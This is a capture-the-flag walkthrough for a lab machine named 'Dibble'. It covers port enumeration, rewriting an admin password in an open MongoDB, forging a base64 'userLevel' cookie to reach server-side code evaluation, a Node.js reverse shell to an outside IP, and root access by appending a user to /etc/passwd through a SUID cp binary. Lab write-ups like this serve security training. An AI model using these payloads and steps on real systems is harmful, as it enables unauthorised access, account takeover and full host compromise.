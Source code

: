 # Dibble

### Enumeration

```
3000/tcp  open  http    Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
27017/tcp open  mongodb MongoDB 4.2.9
|_mongodb-info: ERROR: Script execution failed (use -d to debug)
| mongodb-databases: 
|   ok = 1.0
|   databases
|     0
|       sizeOnDisk = 131072.0
|       name = account-app
|       empty = false
|     1
|       sizeOnDisk = 40960.0
|       name = admin
|       empty = false
|     2
|       sizeOnDisk = 61440.0
|       name = config
|       empty = false
|     3
|       sizeOnDisk = 73728.0
|       name = local
|       empty = false
|_  totalSize = 307200.0
```

```
$ mongo 192.168.108.110
> show dbs
account-app  0.000GB
admin        0.000GB
config       0.000GB
local        0.000GB
> use account-app
switched to db account-app
> show collections
logmsg
users
> db.users.find()
{ "_id" : ObjectId("5f73c575eae85a15b8df908d"), "username" : "administrator", "password" : "ab6edb97f0c7a6455c57f94b7df73263e57113c85f38cd9b9470c8be8d6dd8ac", "facebook" : "NEVER!", "github" : "http://github.com/", "name" : "administrator", "twitter" : "https://twitter.com/sadserver" }

# found admin hash but could not cracked, so we changed it

> db.users.updateOne({username: 'administrator'},{$set: {password: '8737729a3ada8674940065008dd87d9bc110221bf02b1048beab6078349e792c'}})
{ "acknowledged" : true, "matchedCount" : 1, "modifiedCount" : 1 }

# test:password
```

Logged in with creds to 3000 port.

→ Post a new event&#x20;

→ Response: Only the admin can update the Event logs

Looking at it in burp, cookie is interesting

`Cookie: connect.sid=s%3AgpiTPkNbwFtNEslnN3pLyM2hWGHDLdQN.RmUhLtHYOGer6MNa1dYzWu8B5kf%2BQIy4CDeREcK8d8I; userLevel=ZGVmYXVsdA%3D%3D`

userlevel -> URL decode -> base64 -d ZGVmYXVsdA%3D%3D -> ZGVmYXVsdA== -> default

Modifying it to admin

admin -> base64: YWRtaW4= -> url-encode: YWRtaW4%3D

→ Post 1+1&#x20;

User: administrator Event log: 2&#x20;

It's evaluated. NodeJS reverse shell?

### Initial Access

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.49.108", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

### PrivEsc

```
SUID - Check easy privesc, exploits and write perms
-rwsr-xr-x. 1 root root 156K Apr 23  2020 /usr/bin/cp
```

```
$ cd /tmp
$ cp /etc/passwd .

$ echo "cel1s0:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
$ cp passwd /etc/passwd
$ su cel1s0
Password: pass123
```
